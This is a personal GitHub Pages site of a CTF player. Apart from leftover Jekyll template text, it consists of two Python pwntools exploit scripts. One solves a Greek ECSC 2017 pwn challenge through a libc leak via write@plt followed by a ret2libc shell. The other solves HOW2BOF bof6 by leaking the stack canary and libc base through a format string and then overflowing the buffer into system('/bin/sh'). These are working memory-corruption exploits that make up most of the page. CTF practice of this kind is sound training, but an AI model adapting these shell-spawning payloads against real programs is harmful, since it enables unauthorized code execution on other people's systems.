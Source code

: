 ## Welcome to Fuzzer's Palace

You can use the [editor on GitHub](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Greek ECSC QUALS 2017-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

### HOW2BOF-Bof6 Challenge
```python
from pwn import *

def pwn():
        sys_off = 0x03ada0
        exit_off = 0x02e9d0
        bin_sh_off = 0x15ba0b
        p = lambda x : (x[2:].decode('hex'))[::-1]
        r = process('./bof6')
        r.recvuntil('Name: ')
        r.sendline('%x '*18)
        a = r.recvuntil(':')
        print a
        canary = hex(int(a[57:65], 16))
        libc=int(a[95:103],16)-1777664
        print "[+] Here is your cookie motherfucker: "+str(canary)
        print "[+] Libc base address SKIDO: "+hex(libc)
        payload = ""
        payload += "A"*64
        payload += p(canary)
        payload += "B"*12
        payload += p(hex(libc+sys_off))
        payload += p(hex(libc+exit_off))
        payload += p(hex(libc+bin_sh_off))
        r.sendline(payload)
        r.interactive()

pwn()
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### ~$ WHOAMI
1. I am a Greek high school student. 
2. I love Binary Reverse Engineering and Exploitation!


### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
